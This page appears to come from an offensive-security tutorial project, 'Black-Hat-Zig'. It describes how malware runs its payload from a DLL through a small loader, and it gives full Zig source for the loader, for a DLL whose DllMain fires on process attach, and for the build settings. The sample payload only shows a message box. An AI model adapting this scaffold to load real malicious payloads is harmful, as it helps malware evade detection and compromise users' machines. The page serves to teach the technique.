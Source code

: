 # Execute Via DLL

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Payload-Execution/dll)

## Explanation

Instead of embedding shellcode directly, malware can bundle its functionality in
a DLL and rely on a small loader to execute it. The loader locates the DLL at
runtime and calls an exported function or uses `LoadLibrary` to bring it into the
process. This approach makes the initial executable less suspicious and allows
the payload to be swapped easily. The included example outlines how to compile
the DLL and how the loader invokes it using standard Windows API calls.

## Code Walkthrough

DLL loader

```zig title="main.zig"
const std = @import("std");
const windows = std.os.windows;
const print = std.debug.print;

// Windows API functions
extern "kernel32" fn GetModuleFileNameA(hModule: ?windows.HMODULE, lpFilename: [*]u8, nSize: windows.DWORD) callconv(.C) windows.DWORD;

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    // Get command line arguments
    const args = try std.process.argsAlloc(allocator);
    defer std.process.argsFree(allocator, args);

    if (args.len < 2) {
        print("[!] Missing Argument; Dll Payload To Run \n", .{});
        print("Usage: {s} <dll_path>\n", .{args[0]});
        std.process.exit(1);
    }

    const dll_path = args[1];
    const current_pid = windows.GetCurrentProcessId();

    print("[i] Injecting \"{s}\" To The Local Process Of Pid: {d} \n", .{ dll_path, current_pid });

    // Check if DLL file exists and get full path
    var full_path_buf: [windows.PATH_MAX_WIDE]u8 = undefined;
    const full_path = std.fs.cwd().realpath(dll_path, &full_path_buf) catch |err| {
        print("[!] Cannot access DLL file \"{s}\": {}\n", .{ dll_path, err });
        print("[!] Make sure the file exists and is in the current directory\n", .{});
        std.process.exit(1);
    };

    print("[+] Full DLL path: {s}\n", .{full_path});
    print("[+] Loading Dll... ", .{});

    var open_lib = std.DynLib.open(dll_path);
    if (open_lib) |*lib| {
        const handle = lib.inner.dll;
        print("SUCCESS!\n", .{});
        print("[+] DLL Handle: 0x{x}\n", .{@intFromPtr(handle)});

        // Verify the loaded module
        var module_name: [windows.MAX_PATH]u8 = undefined;
        const name_len = GetModuleFileNameA(handle, &module_name, windows.MAX_PATH);
        if (name_len > 0) {
            print("[+] Loaded module: {s}\n", .{module_name[0..name_len]});
        }

        print("[+] DLL loaded successfully! Waiting for payload execution...\n", .{});

        // Give the DLL time to execute
        std.time.sleep(2 * std.time.ns_per_s); // Wait 2 seconds

        // Keep the DLL loaded for a bit longer
        print("[+] Press <Enter> to unload DLL and exit... ", .{});
        _ = std.io.getStdIn().reader().readByte() catch {};

        // Unload the DLL
        lib.close();
        print("[+] DLL unloaded successfully\n", .{});

        print("[+] DONE!\n", .{});
    } else |_| {
        const error_code = windows.GetLastError();
        print("FAILED!\n", .{});
        print("[!] LoadLibraryA Failed With Error: {d}\n", .{@intFromEnum(error_code)});

        // Print common error meanings
        switch (error_code) {
            .FILE_NOT_FOUND => print("    → The system cannot find the file specified\n", .{}),
            .PATH_NOT_FOUND => print("    → The system cannot find the path specified\n", .{}),
            .MOD_NOT_FOUND => print("    → The specified module could not be found\n", .{}),
            .BAD_EXE_FORMAT => print("    → Not a valid Win32 application\n", .{}),
            else => print("    → Unknown error\n", .{}),
        }
        std.process.exit(1);
    }
}
```

The DLL itself.

```zig title="root.zig"
const std = @import("std");
const windows = std.os.windows;

// Windows API types
const HINSTANCE = windows.HINSTANCE;
const DWORD = windows.DWORD;
const LPVOID = *anyopaque;
const BOOL = windows.BOOL;

// DLL reasons
const DLL_PROCESS_ATTACH: DWORD = 1;
const DLL_THREAD_ATTACH: DWORD = 2;
const DLL_THREAD_DETACH: DWORD = 3;
const DLL_PROCESS_DETACH: DWORD = 0;

// MessageBox constants
const MB_OK: u32 = 0x00000000;
const MB_ICONINFORMATION: u32 = 0x00000040;

// Windows API functions
extern "user32" fn MessageBoxA(
    hWnd: ?windows.HWND,
    lpText: [*:0]const u8,
    lpCaption: [*:0]const u8,
    uType: u32,
) callconv(.C) i32;

fn msgBoxPayload() void {
    _ = MessageBoxA(
        null,
        "Please give Black-Hat-Zig a star!",
        "Malware!",
        MB_OK | MB_ICONINFORMATION,
    );
}

// DllMain has to be public
pub export fn DllMain(hModule: HINSTANCE, dwReason: DWORD, lpReserved: LPVOID) callconv(.C) BOOL {
    _ = hModule;
    _ = lpReserved;

    switch (dwReason) {
        DLL_PROCESS_ATTACH => {
            msgBoxPayload();
        },
        DLL_THREAD_ATTACH, DLL_THREAD_DETACH, DLL_PROCESS_DETACH => {
            // Do nothing for these cases
        },
        else => {
            // Handle unexpected values
        },
    }

    return 1; // TRUE
}
```

You should add this to your `build.zig`. You can replace the `payload_dll` to the name you like.

```zig title="build.zig"
const payload_dll = b.addSharedLibrary(.{
    .name = "payload_dll",
    .root_source_file = b.path("src/root.zig"),
    .target = target,
    .optimize = optimize,
});

// Link Windows libraries for the DLL
payload_dll.linkSystemLibrary("kernel32");
payload_dll.linkSystemLibrary("user32");
```
